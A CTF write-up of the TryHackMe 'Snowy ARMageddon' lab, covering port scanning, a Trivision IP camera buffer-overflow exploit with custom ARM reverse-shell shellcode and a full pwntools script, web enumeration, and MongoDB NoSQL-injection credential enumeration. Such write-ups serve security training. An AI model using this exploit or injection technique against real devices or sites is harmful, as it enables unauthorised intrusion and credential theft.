


# Snowy ARMageddon


## Breaching the CyberPolice perimeter
Ho ho, lads and lasses! Van Spy's whispers are golden! By pickin' apart the packet data we've sniffed out a mysterious device in the CyberPolice building. Seems like this old thing's been forgotten in their tech upgrade blizzard. It's as neglected as a lone iceberg.

This clunky old device is a buzzin', ripe for the pickin'. If we can get our claws into this enigmatic device, we'll have ourselves a sly backdoor right into the CyberPolice's icy fortress. Imagine the treasure troves of secrets just waitin' to be plundered! And oh, the cherry on top – we might just finagle our way into Frost-eau's laptop. That'll spill the beans on this Best Festival Company and AntarctiCrafts merger. McSkidy, that clever elf who snagged me last time, ought to keep an eye over her shoulder!

Remember, though, nothin' in the South Pole comes easy. But am I, the Bandit Yeti, the one to back down from a challenge? Never! Let's roll up our sleeves and dive into this digital snowstorm. The Bandit Yeti don't wait for no winter!

### The Yeti Hints!
Alright, my frosty friend, it's time to gear up for a simulated red team engagement. Think like the Yeti – be stealthy, keep it low-profile. We're treadin' through digital snow here, so make sure to minimize any detectable noise. It's like stalkin' a penguin in a blizzard; you gotta be silent, you gotta be sneaky. Now, if you get noisy at any point, don't get all ruffled if you hit a wall and find yourself blocked. It happens to the best of us, even the Bandit Yeti. Sometimes you gotta backtrack to the start, rethink your strategy. It's all part of the icy dance.

Your main target? Access that internal-only web application. That's where the juicy stuff is hidden. Now, gettin' full privileges on the machine – that's a tasty bonus, but don't sweat it if it's out of reach. The key is to complete the mission without kickin' up a snowstorm.

Remember, this is all about bein' as silent as the falling snow and as cunning as the arctic fox. Ready? Let's dive into this digital blizzard and show 'em what the Bandit Yeti's made of!

### Questions
1. What is the content of the first flag?
2. What is the content of the `yetikey2.txt` file?

## Writeup

### Reconaissance
First things first, let's launch the challenge VM and see what ports we have open.

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:43:0f:fe:f5:6f:02:d6:92:1d:42:fe:10:3c:31:05 (RSA)
|   256 d7:16:80:64:ed:1e:29:4a:87:94:63:5a:fe:f1:be:8e (ECDSA)
|_  256 8b:e5:fd:06:3e:be:15:1a:0b:a9:a8:e4:98:26:80:35 (ED25519)
23/tcp    open  tcpwrapped
8080/tcp  open  http       Apache httpd 2.4.57 ((Debian))
|_http-title: TryHackMe | Access Forbidden - 403
|_http-server-header: Apache/2.4.57 (Debian)
50628/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### Port 22 - SSH
We don't have much to exploit this yet.

#### Port 23
Port 23 is normally utilized by Telnet.  Tried connecting with `nc -v $IP 23`, but the server killed the connection immediately; tried this a few times with the same result.  Maybe we'll come back to this later.

#### Port 8080
Seems to be some sort of protection on this website.  Without any further enumeration or use of tools, every attempt to poke around the website leads me to the following error:


#### Port 50628
A quick check of this port yields something potentially useful!  Seems we have a Trivision NC-227WF HD 720P.


### IP Camera Exploitation
A quick Google search for Trivision 227WF exploits brings me to https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html. This blog post mentions about 7 potential exploits worth checking out:

* CVE-2017-8224 - Backdoor account
* CVE-2017-8222 - RSA key and certificates
* CVE-2017-8225 - Pre-Auth Info Leak (credentials) within the custom http server
* Authenticated RCE as root
* Pre-Auth RCE as root
* CVE-2017-8223 - Misc - Streaming without authentication
* CVE-2017-8221 - Misc - "Cloud" (Aka Botnet)

Unfortunately, none of these really seemed to pan out.  Started digging deeper, and included the ARM architecture clue in the room name into my searches.  I came across the following write-up: https://no-sec.net/arm-x-challenge-breaking-the-webs/.  Same camera, bingo!

Looking at their assembly and related python script, it seems the callback to the reverse shell is hard coded in.  We need to find a way to use our VPN IP, which of course contains a `10` (`0x0a` which is a bad character).  Here's the original assembly vs. my modification:

```asm
// Original assembly
22      mov r1, #0x164
23      lsl r1, #8
24      add r1, #0xa8
25      lsl r1, #8
26      add r1, #0xc0
27      push {r1}       // 192.168.100.1
```
```asm
// Modified assembly
mov r1, #0xe6	// 230
lsl r1, #8
add r1, #0x1b	// 27
lsl r1, #8
add r1, #0x06	// 6
lsl r1, #8
add r1, #0x08
add r1, #0x02   // (2+8, 10 is bad char)
push {r1}       // 10.6.27.230
```

Now, let's convert the ARM assembly into shellcode and update the python script.  A good tool for this can be found here: https://shell-storm.org/online/Online-Assembler-and-Disassembler/

```python
from pwn import *
   
HOST = '10.10.162.234'
PORT = 50628
LHOST = [10,6,27,230]
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\xe6\x10\xa0\xe3' # mov r1, #0xe6 (230)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x1b\x10\x81\xe2' # add r1, #0x1b (27)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x06\x10\x81\xe2' # add r1, #0x06 (6)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x08\x10\x81\xe2' # add r1, #0x08
SC += b'\x02\x10\x81\xe2' # add r1, #0x02 (2+8 = 10)
SC += b'\x04\x10\x2d\xe5' # push {r1} (10.6.27.230)
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, PORT)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```

After script execution, we get our reverse shell... time to poke around for something useful.  A few minutes of searching, and voila, `/var/etc/umconfig.txt`.  This file gives us what I hope is the login to the IP camera stream:

```
u = admin
pass = Y3tiStarCur!ouspassword=admin
```


### Back to Port 8080
From the initial look at the webserver running on port 8080, there seemed to be some protection preventing "non-elves" from viewing as intended.  Regardless, I figured I'd run a `gobuster` scan and see what I could find.

```
gobuster dir -u http://10.10.223.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.198:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/demo                 (Status: 200) [Size: 41]
/vendor               (Status: 301) [Size: 322] [--> http://10.10.223.198:8080/vendor/]
```

Both of these endpoints got me back to the same 403 Error splash page.  Next, I ran a `nikto` scan to see if I could find anything there.

```
nikto -host "http://10.10.223.198:8080/"
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.223.198
+ Target Hostname:    10.10.223.198
+ Target Port:        8080
+ Start Time:         2023-12-15 01:39:07 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.57 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index.php/123: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /index.php/123: Retrieved x-powered-by header: PHP/8.1.26.
+ /.DS_Store: Apache on Mac OSX will serve the .DS_Store file, which contains sensitive information. Configure Apache to ignore this file or upgrade to a newer version. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1446
```

Again, nothing looked too promising.  I did key in on CVE-2001-1446 though, and figured looking for a `.DS_Store` would only take a second... turns out there were two to be found: `/.DS_Store` and `/vendor/.DS_Store`.  Pulling out any strings I could, I was able to identify the following strings in the `/vendor/.DS_Store` file:

* composer
* jean85
* mongodb
* psr
* symfony

Continuing with the website enumeration, I tried everything from searching for specific file extensions, trying different user-agents, or other 403 bypass techniques.  I soon discovered that adding a trailing `/` at the end of `index.php` gave me a redirect to `login.php`.  It was blocked by the 403 error page again, surprise surprise.  But what happens if we add the trailing `/` to the end of `login.php`?


How to get past the authentication? I tried using `hydra` with some fairly common usernames/passwords... no luck. Tried `sqlmap` for potential SQL injection... no luck. But then I remembered the reference to `mongodb` I found in the `.DS_Store` above.  Perhaps we need to try some noSQL injection techniques, specifically for MongoDB.  After some research, finally found the following tool: https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

```
python nosqli-user-pass-enum.py -u http://10.10.223.198:8080/login.php/ -up username -pp password -ep username -m POST
...
7 username(s) found:                                                                                                                  
Blizzardson                                                                                                                           
Frostbite                                                                                                                             
Grinchowski                                                                                                                           
Iciclevich                                                                                                                            
Northpolinsky                                                                                                                         
Scroogestein                                                                                                                          
Tinselova 
...
python nosqli-user-pass-enum.py -u http://10.10.223.198:8080/login.php/ -up username -pp password -ep password -m POST
...
16 password(s) found:
6Ne2HYXUovEIVOEQg2US
7yIcnHu8HC6QCH1MCfHS
advEpXUBKt3bZjk3aHLR
h1y6zpVTOwGYoB95aRnk
jlXUuZKIeCONQQIe92GZ
rCwBuLJPNzmRGExQucTC
tANd8qZ93sFHUBrJhdQj
uwx395sm4GpVfqQ4dUDI
E33v0lTuUVa1ct4sSed1
F6Ymdyzx9C1QeNOcU7FD
HoHoHacked
JZwpMOTmDvVYDq3uSb3t
NlJt6HBZBG3olEphq8gr
ROpPXouppjXNf2pmmT0Q
UZbIt6L41BmLeQJF0gAR
WmLP5OZDiLos16Ie1owB
```

We have quite the disparity between usernames (7) and passwords (16).  Either the script is bugged, or I've got 9 usernames unaccounted for.  Maybe we need to try a different tool; another one I came across was https://github.com/Hex27/mongomap.  Let's use it to match usernames to the known passwords.

```
python mongomap.py -u "http://10.10.223.198:8080/login.php/" --method post --data "username=1&password=$KNOWN_PASSWORD" -p username
```
```
Blizzardson:h1y6zpVTOwGYoB95aRnk
Frostbite:WmLP5OZDiLos16Ie1owB
Frosteau:HoHoHacked
Frostington:JZwpMOTmDvVYDq3uSb3t
Frostova:E33v0lTuUVa1ct4sSed1
Grinchenko:ROpPXouppjXNf2pmmT0Q
Grinchowski:7yIcnHu8HC6QCH1MCfHS
Iciclevich:uwx395sm4GpVfqQ4dUDI
Northpolinsky:jlXUuZKIeCONQQIe92GZ
Scroogestein:UZbIt6L41BmLeQJF0gAR
Sleighburn:advEpXUBKt3bZjk3aHLR
Slushinski:NlJt6HBZBG3olEphq8gr
Snowbacca:tANd8qZ93sFHUBrJhdQj
Snowballer:rCwBuLJPNzmRGExQucTC
Snownandez:6Ne2HYXUovEIVOEQg2US
Tinselova:F6Ymdyzx9C1QeNOcU7FD
```

The one user/pass combo that stands out to me is `Frosteau:HoHoHacked`, so let's head back to `/login.php` and give it a shot.  After logging in, I noticed a PHPSESSID cookie was set and it attempted to redirect me to `index.php`.  Alas, it still blocks non-elves, so maybe let's add the trailing `/` and head to `/index.php/`. Bingo!


